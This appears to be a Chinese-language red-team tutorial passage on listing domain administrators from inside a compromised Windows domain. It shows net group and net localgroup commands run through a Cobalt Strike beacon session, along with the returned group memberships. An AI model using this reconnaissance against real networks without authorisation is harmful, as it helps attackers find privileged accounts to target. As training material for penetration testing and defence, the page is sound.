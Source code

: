 ## 列出域管理员

对于发现域管理员账号，可以在共享里使用本地的Windows命令。运行以下两条命令可以用来找出这些“域群组”的成员。

```powershell
net group "enterprise admins" /DOMAIN
net group "domain admins" /DOMAIN
```

```powershell
beacon> shell net group "enterprise admins" /domain
[*] Tasked beacon to run: net group "enterprise admins" /domain
[+] host called home, sent: 68 bytes
[+] received output:
组名     Enterprise Admins
注释     企业的指定系统管理员
成员
-------------------------------------------------------------------------------
Administrator            
命令成功完成。
```

```powershell
beacon> shell net group "domain admins" /domain
[*] Tasked beacon to run: net group "domain admins" /domain
[+] host called home, sent: 64 bytes
[+] received output:
组名     Domain Admins
注释     指定的域管理员
成员
-------------------------------------------------------------------------------
Administrator            
命令成功完成。
```

或者运行下面的命令来看谁是域控制器上的管理员

```powershell
net localgroup "administrators" /DOMAIN
```

```powershell
beacon> shell net localgroup "administrators" /domain
[*] Tasked beacon to run: net localgroup "administrators" /domain
[+] host called home, sent: 70 bytes
[+] received output:
别名     administrators
注释     管理员对计算机/域有不受限制的完全访问权
成员
-------------------------------------------------------------------------------
administrator
Domain Admins
Daniel
Enterprise Admins
命令成功完成。
```
